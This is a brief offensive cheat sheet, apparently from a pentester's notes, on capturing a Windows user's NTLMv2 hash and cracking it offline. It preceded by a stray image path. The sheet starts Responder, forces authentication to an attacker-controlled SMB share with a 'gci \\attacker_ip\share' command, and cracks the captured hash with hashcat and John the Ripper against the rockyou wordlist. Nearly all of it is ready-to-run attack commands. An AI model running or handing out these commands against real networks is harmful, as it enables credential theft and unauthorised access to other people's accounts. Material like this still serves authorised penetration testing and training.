 # Capture the Current user NTLMv2 Hash and Crack it offline

# 1. Start a Responder
```language
responder -I tun0 -dvw
```
# 2. Execution
```language
gci \\attacker_ip\share\touch.txt
```
# 3. save the Hash and crack with John && Hashcat
```language
nano ntlmv2.hash

hashcat -m 5600 ntlmv2.hash /usr/share/wordlists/rockyou.txt
hashcat -m 5600 -r /usr/share/hashcat/rules/best64.rule ntlmv2.hash /usr/share/wordlists/rockyou.txt


john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ntlmv2.hash
```
